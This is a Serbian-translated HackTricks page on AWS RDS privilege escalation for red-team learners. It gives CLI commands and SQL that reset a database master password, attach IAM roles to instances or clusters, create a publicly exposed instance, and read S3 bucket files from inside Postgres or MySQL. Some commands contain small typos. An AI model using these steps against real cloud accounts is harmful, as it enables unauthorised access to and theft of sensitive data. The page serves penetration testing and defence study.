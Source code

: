 # AWS - RDS Privesc

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## RDS - Relational Database Service

Za više informacija o RDS pogledajte:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **promeniti lozinku glavnog korisnika**, i prijaviti se u bazu podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Biće potrebno da možete **kontaktirati bazu podataka** (obično su dostupne samo unutar mreža).
{% endhint %}

**Potencijalni uticaj:** Pronađite osetljive informacije unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) korisnik sa ovom dozvolom može se povezati na DB instancu.

### Zloupotreba RDS Role IAM dozvola

#### Postgresql (Aurora)

{% hint style="success" %}
Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka pod nazivom **`rdsadmin`** znate da ste unutar **AWS postgresql baze podataka**.
{% endhint %}

Prvo možete proveriti da li je ova baza podataka korišćena za pristup bilo kojoj drugoj AWS usluzi. Ovo možete proveriti gledajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`** možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa S3** (postoje i druge ekstenzije kao što su **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete videti tamo da li **klaster ima bilo koju IAM ulogu pridruženu** u polju **`AssociatedRoles`**. Ako postoji, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imena uloge** (ili ako možete dobiti **dozvole** uloge) možete **pretpostaviti** koji dodatni pristup baza podataka ima.

Sada, da biste **pročitali fajl unutar bucket-a** potrebno je da znate punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako imate **sirove AWS kredencijale** možete ih koristiti za pristup S3 podacima sa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **ne mora da menja bilo koju promenljivu u grupi parametara** da bi mogao da pristupi S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da ste unutar **AWS RDS mysql db**.
{% endhint %}

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, imaju vrednosti, možete pretpostaviti da je baza podataka pripremljena za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete proveriti da li klaster ima bilo koju **povezanu ulogu**, što obično znači pristup AWS uslugama.

Sada, da biste **pročitali fajl unutar bucket-a** morate znati punu putanju. Možete je pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instance-u**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance-a.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni Uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Napomena da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji treba da specificira ARN u aprameter grupama takođe.

### `rds:CreateDBInstance`

Samo sa ovom dozvolom napadač može kreirati **novu instancu unutar klastera** koji već postoji i ima dodeljenu **IAM ulogu**. Neće moći da promeni lozinku glavnog korisnika, ali može biti u mogućnosti da izloži novu bazu podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Testirati
{% endhint %}

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **kreirati novu RDS instancu sa dodeljenom specifičnom ulogom**. Napadač tada može potencijalno **pristupiti osetljivim podacima** ili modifikovati podatke unutar instance.

{% hint style="warning" %}
Neki zahtevi za ulogu/profil instance koji se dodeljuje (iz [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil mora postojati u vašem nalogu.
* Profil mora imati IAM ulogu koju Amazon EC2 ima dozvole da preuzme.
* Ime profila instance i pridruženo ime IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.

{% hint style="warning" %}
DB instanca mora biti van klastera za ovo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
